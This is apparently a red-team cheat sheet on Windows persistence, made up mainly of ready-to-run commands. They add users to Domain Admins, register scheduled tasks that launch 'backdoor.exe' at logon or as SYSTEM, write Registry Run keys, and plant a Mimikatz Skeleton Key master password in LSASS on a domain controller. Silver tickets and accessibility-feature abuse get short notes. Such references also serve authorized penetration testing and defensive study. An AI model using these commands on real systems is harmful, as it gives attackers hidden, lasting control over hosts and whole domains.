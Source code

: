 # Windows

## Guides

3 good guides:

{% embed url="https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-1-microsoft-office/" %}

{% embed url="https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-2-com-hijacking/" %}

{% embed url="https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-3-wmi-event-subscription/" %}

## Add User

Commands: 

`net user "username" "password" /ADD` 

`net group "Domain Admins" %username% /DOMAIN /ADD` 

Change user password 

`net user USERNAME *` 

Using Powershell:

`Add-LocalGroupMember -Group Administrators -Member hacker`

## Scheduled task

### SharpPresist

[https://github.com/fireeye/SharPersist](https://github.com/fireeye/SharPersist) 

Create a Scheduled task: 

`Execute-assembly ~/Downloads/SharPersist.exe -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 >> c:\123.txt" -n "Some Task" -m add -o hourly` 

Or 

`SharPersist -t schtask -c "C:\Windows\Microsoft.NET\Framework\v4.0.30319\Msbuild.exe" -a "C:\Users\John\msbuild.csproj" -n "Test" -m add -o hourly` 

Delete a Scheduled task: 

`SharPersist -t schtask -n "Test" -m remove` 

### PowerShell 

```text
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe" 
PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta" 
PS C:\> $P = New-ScheduledTaskPrincipal "Rasta" 
PS C:\> $S = New-ScheduledTaskSettingsSet 
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S 
PS C:\> Register-ScheduledTask Backdoor -InputObject $D 
```

### Command Line 

`shell schtasks /create /tn Test /tr "c:\windows\system32\cmd.exe /c c:\Users\JOHN\Downloads\backdoor.exe" /sc onlogon /ru System` 

## Registry Key

### SharpPresist: 

[https://github.com/fireeye/SharPersist](https://github.com/fireeye/SharPersist) 

Create a Registry Key: 

`SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add` 

Delete a Registry Key: 

`SharPersist -t reg -k "hkcurun" -v "Test Stuff" -m remove` 

### Command Line 

`shell reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Test /t REG_SZ /d "C:\Windows\System32\cmd.exe"` 

Delete: 

`reg delete  Registry_key_path /v Registry_value_name` 

## Accessibility Features

The accessibility features provide additional options \(on screen keyboards, magnifier, screen reading etc.\) that could assist people with disabilities to use Windows operating systems easier. However, this functionality can be abused to achieve persistence on a host that RDP is enabled and Administrator level privileges have been obtained. This technique touches the disk, or modification of the registry is required to execute a stored remotely payload. 

{% embed url="https://pentestlab.blog/2019/11/13/persistence-accessibility-features/" %}

## Silver Tickets

Computers change their account passwords every 30 days, but this is initialized by the client, not Active Directory. extract the host computer account hash, set a specific registry key, and you can regain access indefinitely. 

## Skeleton Key

The method injects itself into LSASS and creates a master password that will work for any account in the domain.

* The Skeleton Key only works for Kerberos RC4 encryption
* The Skeleton Key is a backdoor that runs on the Domain Controller \(in memory\) allows single password \(the skeleton password\) that can be used to log on to any account;

Run it on a DC using Mimikatz:

```text
privilege::debug
misc::skeleton
```

[https://pentestlab.blog/2018/04/10/skeleton-key/](https://pentestlab.blog/2018/04/10/skeleton-key/)

